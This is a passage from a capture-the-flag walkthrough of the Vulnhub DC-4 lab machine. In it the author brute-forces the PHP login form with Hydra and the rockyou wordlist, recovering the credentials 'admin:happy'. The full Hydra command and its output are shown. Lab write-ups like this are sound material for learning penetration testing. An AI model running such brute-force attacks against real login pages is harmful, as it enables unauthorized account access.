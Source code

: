 We are redirected to /index.php from /login.php, /logout.php, and /command.php. So far there's no limit to submitting login credentials and this is a PHP app, so let's brute-force with Hydra. Normally you provide a success or failure message in a Hydra command, but this form doesn't provide either. Since command.php appears to be the page we'll be directed to on a successful login (given the other options), We include "command" as part of the success message (even if it will only be in the filename). We also use "admin" as the username, which seems like a solid first guess (administrator, root, etc to follow if necessary). The form fields in the source code are `username` and `password`, so we'll formulate our command to accomodate.
```
root@kali:~/Security/Vulnhub/DC-Series/4# hydra -l admin -P /root/rockyou.txt 10.10.10.9 http-post-form '/login.php:username=^USER^&password=^PASS^:S=command'
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-02 19:30:30
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.10.9:80/login.php:username=^USER^&password=^PASS^:S=command
[80][http-post-form] host: 10.10.10.9   login: admin   password: happy
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-02 19:30:51
```
New creds! `admin:happy`

Logging in requires double clicking submit for some reason, but I'm just glad Hydra didn't worry about it.

![system tools](/images/vhub/dc/4_2.png)

Let's checkout command.php:

![system tools](/images/vhub/dc/4_3.png)
